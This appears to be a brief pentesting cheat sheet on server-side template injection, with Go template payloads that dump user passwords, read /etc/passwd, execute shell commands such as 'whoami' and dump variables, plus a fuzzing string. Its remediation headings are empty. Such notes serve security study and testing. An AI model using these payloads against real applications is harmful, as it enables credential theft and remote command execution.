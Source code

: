 # Resource for more complicated payloads: https://github.com/swisskyrepo/PayloadsAllTheThings

# https://book.hacktricks.xyz/

## Payloads Fuzzing: ${{<%'"}}%

## PoC Payload for Identification: ${7*'7'}

## Explaining further about more template engines here: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Remediation:

### 1: Secure methods

### 2: Sanitization

## Example payloads:

## Go SSTI

### 1) {{ .Password }} (Fetches the passwords of all users) Hint: It depends on the struct the application has been made of to use the correct one! 

### 2) {{ .GetFile "/etc/passwd" }} (Gets the passwd linux file)

### 3) {{ .ExecuteCmd "whoami" }} Executes commands

### 4) {{ . }} (Dumps variables)
